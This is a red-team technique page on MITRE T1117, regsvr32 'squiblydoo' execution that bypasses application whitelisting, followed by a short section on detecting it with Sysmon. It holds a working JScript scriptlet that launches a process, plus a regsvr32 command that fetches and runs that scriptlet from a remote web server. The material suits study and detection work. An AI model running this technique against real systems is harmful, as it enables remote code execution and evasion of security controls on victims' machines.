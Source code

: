 ```yaml
---
description: regsvr32 (squiblydoo) code execution - bypass application whitelisting.
---
```


# T1117: regsvr32

## Execution

{% code-tabs %}
{% code-tabs-item title="http://10.0.0.5/back.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We need to host the back.sct on a web server so we can invoke it like so:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

![calc.exe spawned by regsvr32.exe](../../.gitbook/assets/regsvr32.png)

Note how regsvr32 process exits almost immediately. This means that just by looking at the list of processes on the victim machine, the evil process may not be immedialy evident... Not until you realise how it was invoked though. Sysmon commandline logging may help you detect this activity:

![](../../.gitbook/assets/regsvr32-commandline.png)

Additionally, of course sysmon will show regsvr32 establishing a network connection:

![](../../.gitbook/assets/regsvr32-network.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1117" %}

